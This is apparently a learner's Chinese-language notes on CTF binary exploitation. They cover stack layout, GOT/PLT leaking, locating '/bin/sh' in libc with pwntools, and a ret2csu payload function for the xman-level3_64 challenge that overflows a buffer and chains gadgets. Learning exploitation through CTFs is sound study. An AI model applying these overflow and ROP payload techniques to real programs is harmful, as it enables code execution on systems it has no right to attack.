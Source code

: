 几个细节需要记录一下以后注意：
1. 栈的布置（32位）：
```
[padding][返回地址][下一个返回地址][参数N][参数N-1]...[参数1]
```
2. got表的延迟绑定技术情况下，需要泄漏那些已经使用过的函数才行。
3. pwntools中的ELF模块直接可对elf程序的plt、got表和字符串进行搜索，其中可执行的程序的got和symbols是一致的，libc只有symbols。掉用一个程序，跳转到其plt表。
4. 搜索binsh字符串的方法
``` python
from pwn import *
libc = ELF('xxx')
libc.search('/bin/sh').next()
```

### xman-level3_64
在64位环境下，函数的调用所需要的参数是优先通过寄存器来进行的。寄存器的顺序如下：rdi,rsi,rdx,rcx,r8,r9。当一个函数有大于6个整形参数，则超出的部分会通过栈来传递，这个情况少见。

使用通用gadget控制write三个参数的值
``` python
def csu(rbx, rbp, r12, r13, r14, r15, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    payload = 'a' * 0x80 + fakeebp
    payload += p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(
        r13) + p64(r14) + p64(r15)
    payload += p64(csu_front_addr)
    payload += 'a' * 0x38
    payload += p64(last)
    sh.send(payload)
    sleep(1)
```

问题：
plt 和 got表的关系到底是怎样的，ret指令为什么放plt就行，放got表就不行

## 一些需要注意的坑：

* 32位的程序在64位上的机器上没法跑，需要安装一下 `sudo apt-get install libc6-i386 libc6:i386`
* gdb调试不熟悉啊，x/nxg addr 打印内存内容



## IDA技巧
shift + F12 : 调出string界面
alt + 7 : imports界面

## GDB技巧

